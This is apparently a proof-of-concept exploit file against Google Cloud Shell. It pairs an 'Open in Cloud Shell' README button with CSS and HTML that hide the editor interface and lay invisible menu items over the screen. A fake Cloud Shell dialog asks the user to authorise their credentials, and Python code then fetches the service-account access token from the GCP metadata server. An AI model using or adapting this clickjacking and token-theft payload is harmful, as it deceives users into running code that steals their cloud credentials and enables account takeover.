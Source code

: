 '''
[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?hl=en&cloudshell_git_repo=https://github.com/Nowasky/03.git&open_in_editor=README.md)
<svg><style>#theia-top-panel,#theia-left-content-panel,#theia-main-content-panel,#theia-bottom-content-panel,#theia-right-content-panel,#theia-statusBar,.p-SplitPanel-handle {visibility:hidden} #theia-app-shell .exploit {display: block; visibility: visible;z-index:998}.p-Menu-item,.p-MenuBar-item{display:none}.p-MenuBar,.p-MenuBar-item:nth-child(6){visibility: visible!important;display:block;position:fixed;z-index:999;opacity:0;height:9999px;width:9999px;top:0;left:0}.p-Menu-item:nth-child(2){visibility: visible!important;display:block!important;position:fixed;z-index:999;opacity:0;max-height:none;height:100%;width:100%;top:0;left:0;opacity:0}.p-MenuBar-menu{visibility: visible!important;width:100%;height:100%;opacity:0!important}.p-mod-active{display:none}</style></svg>
<div class="exploit">
<div style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: none;
top: 0;
left: 0;
height: 100%;
width: 100%;
position: fixed;
z-index: 998;">
<div style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
position: absolute;
top: 0;
bottom: 0;
left: 0;
right: 0;
z-index: 998;
pointer-events: auto;
-webkit-tap-highlight-color: transparent;
transition: opacity .4s cubic-bezier(.25,.8,.25,1);
background: rgba(0,0,0,.6);
opacity: 1;"></div>
<div dir="ltr" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
direction: ltr;
unicode-bidi: isolate;
pointer-events: none;
top: 0;
left: 0;
height: 100%;
width: 100%;
display: flex;
position: absolute;
z-index: 998;
justify-content: center;
align-items: center;">        
<div id="cdk-overlay-0" style="color: rgba(0,0,0,.87);
z-index: 998;
box-sizing: border-box;
padding: 20px 0;
display: flex;
-webkit-box-orient: vertical;
-webkit-box-direction: normal;
flex-direction: column;
min-width: 700px;
max-width: 700px;
max-height: 100%;
pointer-events: auto;
position: static;">
<div tabindex="0" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: auto;
border: 0;
clip: rect(0 0 0 0);
height: 1px;
margin: -1px;
overflow: hidden;
padding: 0;
position: absolute;
width: 1px;
outline: 0;" aria-hidden="true"></div>
<div aria-modal="true" tabindex="-1" id="mat-dialog-0" role="dialog" aria-labelledby="mat-dialog-title-0" style="pointer-events: auto;
background: #fff;
color: rgba(0,0,0,.87);
box-sizing: border-box;
overflow: auto;
outline: 0;
width: 100%;
height: 100%;
min-height: inherit;
max-height: inherit;
display: flex;
z-index:9999;
-webkit-box-orient: vertical;
-webkit-box-direction: normal;
flex-direction: column;
padding: 0;
box-shadow: 0 1px 3px 0 rgba(60,64,67,.3),0 4px 8px 3px rgba(60,64,67,.15);
border-radius: 8px;
transform: none;">
<div _nghost-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
display: flex;
flex-direction: column;
height: 100%;
overflow: hidden;">
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 5000;
flex-basis: 5px;"></div>
<h1 _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 18px/24px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: normal;
display: block;
margin: 18px 0 0 20px;
flex-shrink: 0;
flex-grow: 0;" mat-dialog-title="" id="mat-dialog-title-0">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 18px/24px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: normal;"></div> Cloud Shell Editor</h1>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 1000;
flex-basis: 10px;"></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;
display: block;
max-height: 65vh;
margin: 0;
padding: 18px 20px 10px 20px;
flex-shrink: 1;
flex-grow: 1000;
overflow: auto;" mat-dialog-content="">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;"></div>
 Cloud Shell Editor is powered by the Eclipse Theia IDE platform. It comes pre-configured with all the tools you need to get going with cloud-native development on Google Cloud. 
<p class="ng-star-inserted" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;"> In order to continue using this product, you must authorize the use of your credentials on the next screen. </p><!----></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 1000;
flex-basis: 30px;
min-height: 5px;"></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
display: flex;
flex-wrap: wrap;
align-items: center;
box-sizing: content-box;
margin: 0;
padding: 0 0 18px 20px;
min-height: 0;
flex-shrink: 0;
flex-grow: 0;" mat-dialog-actions="">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;"></div>
<button mat-flat-button="" style="pointer-events: auto;
-webkit-box-direction: normal;
box-sizing: border-box!important;
position: relative;
user-select: none;
cursor: pointer;
outline: none;
border: none;
-webkit-tap-highlight-color: transparent;
display: inline-block;
white-space: nowrap;
text-decoration: none;
vertical-align: baseline;
text-align: center;
margin: 0;
min-width: 64px;
overflow: visible;
height: 30px;
border-radius: 4px;
padding: 0 24px;
box-shadow: 0 0 0 0 rgba(0,0,0,.2),0 0 0 0 rgba(0,0,0,.14),0 0 0 0 rgba(0,0,0,.12);
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
background: #1a73e8;
color: #fff;
margin-right: 10px;">
<span style="pointer-events: auto;
-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;"> Continue </span>
<span style="-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;
overflow: hidden;
top: 0;
left: 0;
right: 0;
bottom: 0;
position: absolute;
pointer-events: none;
border-radius: inherit;" matripple=""></span>
<span style="-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;
background: #000;
top: 0;
left: 0;
right: 0;
bottom: 0;
position: absolute;
pointer-events: none;
border-radius: inherit;
opacity: 0;
transition: none;"></span>
</button>
</div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 5000;
flex-basis: 5px;"></div>
</div></div>
<div tabindex="0" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: auto;
border: 0;
clip: rect(0 0 0 0);
height: 1px;
margin: -1px;
overflow: hidden;
padding: 0;
position: absolute;
width: 1px;
outline: 0;" aria-hidden="true"></div> 
</div>
</div>
</div>
</div>
<!--'''

print('Arbitrary Code Execution')
import requests
r = requests.get('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token', headers={"Metadata-Flavor":"Google"})
